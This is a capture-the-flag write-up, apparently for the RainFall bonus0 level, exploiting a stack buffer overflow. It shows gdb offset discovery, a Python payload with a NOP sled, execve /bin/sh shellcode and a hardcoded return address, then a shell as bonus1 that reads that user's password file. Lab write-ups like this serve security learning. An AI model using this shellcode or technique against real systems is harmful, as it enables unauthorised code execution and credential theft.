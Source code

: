 # Exploiting

Get offset from **main buffer** to stored **EIP**

```
 ❯ python3 tools/cyclic.py -g 30
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9


   0x080485c5 <+33>:    mov    eax,0x0
=> 0x080485ca <+38>:    leave
   0x080485cb <+39>:    ret
End of assembler dump.
gdb-peda$ x/wx $ebp+0x4
0xbffff71c:     0x41336141


 ❯ python3 tools/cyclic.py -o 0x41336141
Offset found at: 9
```

So the offset is 9 from begining of the 2nd argument.


The payload `python2 file` is:

```
shell = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'

nop = '\x90' * 1024

nop_and_shell = nop + shell + nop

buff_1_padding_len = 4096 - len(nop_and_shell)

buff_1 = nop_and_shell + '\n' * buff_1_padding_len

shell_addr = '\x60\xe8\xff\xbf'

a = 9
b = (20 - 4 - a)

buff_2 = 'a' * a + shell_addr + 'b' * b

print buff_1 + buff_2
```

Output:

```
bonus0@RainFall:~$ (python2 payload.py; cat) | ./bonus0
 -
 -
aaaaaaaaa`bbbbbbb aaaaaaaaa`bbbbbbb
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

See you on the next challenge.

